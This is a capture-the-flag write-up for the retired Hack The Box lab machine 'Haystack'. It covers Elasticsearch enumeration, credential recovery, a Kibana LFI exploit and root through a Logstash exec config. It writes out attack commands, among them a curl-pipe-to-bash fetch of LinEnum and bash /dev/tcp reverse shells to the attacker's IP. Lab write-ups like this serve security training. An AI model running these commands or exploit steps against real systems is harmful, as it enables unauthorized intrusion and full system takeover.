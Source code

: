 # Haystack

This is the write-up for the box Haystack that got retired at the 2nd November 2019.
My IP address was 10.10.14.40 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.115    haystack.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haystack.nmap 10.10.10.115
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

## Checking HTTP (Port 80)

On the web page there is an image of a needle in a haystack and nothing interesting in the source code.

## Checking HTTP (Port 9200)

On the web page on port 9200 there is some kind of API where it shows data in JSON format:

![JSON data](https://kyuu-ji.github.io/htb-write-up/haystack/haystack_web-1.png)

The clustername indicates that there is an **Elasticsearch** service installed on the server.
When looking at the [Elasticsearch Reference](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/index.html) at the _Document APIs_ and _cat APIs_, we can get some information about this application with those methods.

Basic usage of the _cat_ command:
```markdown
curl http://10.10.10.115:9200/_cat/master?v
```

This outputs some general master information but we can look for more information by only typing in the _cat_ command.
Lets look at the indices:
```markdown
curl http://10.10.10.115:9200/_cat/indices?v

# Output
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

We can look inside the index _quotes_ with the following request. I use `jq` to make the JSON output more readable:
```markdown
curl http://10.10.10.115:9200/quotes/_search | jq .
```

This outputs a bunch of Spanish texts. Before working with those, it would be practical to only display the quote values and filter out the other JSON key-value pairs.
```markdown
curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .\_source .quote'
```

Now we get only the Spanish quotes from all 253 documents.

### Analyzing the Spanish quotes

To make sense of the Spanish strings, we should send them to a translation service.
For this task, I wrote a Python script that can be found in this repository.
```markdown
python3 haystack_quotes.py | tee quotes-translated.txt
```

After executing this script, it translates all the quotes to English and we can put this into a file to search for interesting results.
```markdown
cat quotes-translated.txt | grep -i password
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key
```

The word _key_ finds something interesting:
```markdown
This key can not miss, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =
I have to keep the key to the machine: dXNlcjogc2VjdXJpdHkg
```

These strings look like **Base64** so lets decode them:
```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk' | base64 -d

# Output
user: security
```

```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d

# Output
pass: spanish.is.key
```

The only login we know of is **SSH**, so lets try to log in with the user _security_ and the password _spanish.is.key_ there:
```markdown
ssh security@10.10.10.115
```

This works and we are logged in on the box as the user _security_.

## Privilege Escalation

We should run any **Linux Enumeration script** on the box to get an attack surface:
```markdown
curl 10.10.14.40:8000/LinEnum.sh | bash
```

After analyzing the output, we have the following information:
- There are groups called _kibana_, _logstash_ and _elasticsearch_
- The box is listening on port 5601 on 127.0.0.1

So this means that there is an **ELK Stack** installed on the box.
By default **Kibana** runs on port 5601 and we can verify that by requesting the HTTP page:
```markdown
curl 127.0.0.1:5601
```

With **SSH port forwarding** it is possible to connect to the service from our local client.

### SSH Port forwarding

With the shortcut `~C` the shell starts the ssh command prompt.
In here we can set up the port forwarding:
```markdown
ssh> -L 5602:127.0.0.1:5601
```

This opens port _5602_ on my local client and forwards the service from port _5601_ through the SSH session.
Now we can access the **Kibana** service on our local client.
```markdown
http://localhost:5602
```

### Exploiting Kibana

On _Management_ it shows that this is version 6.4.2 which is from October 2018 and could have some vulnerabilities.
After researching for vulnerabilities, there is this [Local File Inclusion](https://github.com/mpgn/CVE-2018-17246) with a script that can execute a reverse shell on the server.

Lets create a file on the box called _rev.js_ and modify the script to connect to our IP address and then exploit the LFI by requesting the described path:
```markdown
curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'
```

The listener on my IP and port 1337 starts a reverse shell as the user _kibana_.

### Privilege Escalation to root

The files in _/etc/logstash_ are owned by the user root and the group _kibana_ with read permissions.
In _/etc/logstash/conf.d_ there are the configuration files for **Logstash**:
```markdown
# input.conf

input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

```markdown
# filter.conf

filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

```markdown
# output.conf

output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

We need to create a file called _/opt/kibana/logstash*_ that will be executed.
The string from the filter has to be in that file.

I call the file _logstash_test_ and it has the following contents:
```markdown
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.40/9001 0>&1
```

After a while the listener on my IP and port 9001 starts a reverse shell connection as root!
